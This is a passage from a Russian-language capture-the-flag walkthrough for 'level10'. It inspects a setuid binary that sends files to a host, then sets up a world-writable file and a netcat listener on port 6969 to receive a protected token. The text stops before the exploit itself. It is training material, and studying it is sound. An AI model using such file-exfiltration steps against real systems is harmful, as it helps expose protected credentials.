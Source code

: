 #
###### [вернуться к содержанию](#content)
<a name="lvl10"></a> 
# level10

1. Смотрю, что есть:
```sh
ls -la
# ||
# \/
# -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10 \
# -rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
2. Запускаю и пытаюсь понять, что можно сделать с этой программкой
```sh
./level10
# ||
# \/
# ./level10 file host

./level10 file host
# ||
# \/
# sends file to host if you have access to it

./level10 token 127.0.0.1
# ||
# \/
# You don't have access to token

./level10 level10 127.0.0.1
# ||
# \/
# Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

./level10 level10 drfhgdfghxfg
# ||
# \/
# Connecting to drfhgdfghxfg:6969 .. Unable to connect to host drfhgdfghxfg
```
3. Программа отправляет файл на сервер, использующий порт 6969. \
Значит, надо запустить сервер на этом порту, который будет получать файл и писать его куда-то. \
Создаю файл, в который сервер будет записывать полученный файл 
```sh
touch tkn
chmod 777 tkn
```
На выбор:
* Запускаю сервер и во втором терминале буду отправлять файл
```
nc -l 6969 
```
